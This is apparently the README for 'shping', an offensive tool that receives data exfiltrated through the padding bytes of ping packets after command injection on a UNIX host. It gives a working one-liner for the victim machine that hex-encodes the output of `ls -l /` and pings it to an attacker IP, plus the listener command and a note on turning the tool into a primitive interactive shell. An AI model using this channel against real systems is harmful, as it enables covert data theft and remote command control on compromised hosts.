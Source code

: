 # shping

Got command injection on a UNIX system but the only thing you can do is ping yourself?

Well don't despair. With this little tool you can receive the output of your commands, as well as any other data, inserted in the ping's padding space. From its manual:

```
-p pattern
	You may specify up to 16 “pad” bytes to fill out the packet you send. This is useful for diagnosing data-dependent problems in a network. For example, -p ff will cause the sent packet to be filled with all ones.
```

You can even use it as a primitive shell, after setting it up properly.

Does not work with windows ping or any other version that doesn't have that option.

## usage

```
↬  python3 shping.py -h
usage: shping.py [-h] [-o outputFile] [-i] targetIP encapChr

Read data sent as padding from unix ping tool through the -p option. Can be
used as just a data receiver or as a primitive shell after implementing the
sendCommand function

positional arguments:
 targetIP              Target IP address
 encapChr              Character to use for encapsulating data. Must be the
					   same character used on the other end

optional arguments:
 -h, --help            show this help message and exit
 -o outputFile, --outfile outputFile
					   Set this if you want to save all the output to a file
 -i, --interactive     Interactive shell mode

```

Note that the data you want to receive must be sent to ping as hex-encoded. This varies based on the tools you have at your disposal, for example you can use xxd or hexdump (see below).

Also, the data you want to receive must be enclosed by a string of 16 identical characters (encapChr parameter). That's for 2 reasons:

1. To ensure the data is always 16 bytes long. In reality, the padding space is larger, but ping only accepts 16 bytes, and if you feed it less it will reorder the bytes in a confusing way.
2. To grab the offset where our data starts in the icmp packet.

So on the remote machine you'll want to execute something like this:

```
cont="AAAAAAAAAAAAAAAA""$(ls -l /)""AAAAAAAAAAAAAAAA"; echo -n "$cont" | hexdump -v -e '16/1 "%02x" "\n"' | while read line; do ping -c 1 -p $line 198.51.100.1; done
```

where `198.51.100.1` is your ip (or with `xxd -c 16 -ps` in place of hexdump...), while on your local machine you'll run shping like:
```
python3 shping.py 198.51.100.2 A
```
where `198.51.100.2` is the ip of the remote machine.

## interactive mode

You can directly send and receive commands through shping by implementing the `sendCommand` function to basically do the same thing you'd manually do in the first step above (eg. http get/post). Then just launch shping as before but with the `-i` option and type your commands.

## notes

- only works on ipv4
- no ping -p option = no shping (<- windows)
- there are far better tools to use if you can do more stuff on the remote machine. this is just for the situations where you're strictly limited to basic commands and can't upload/download files to/on the target
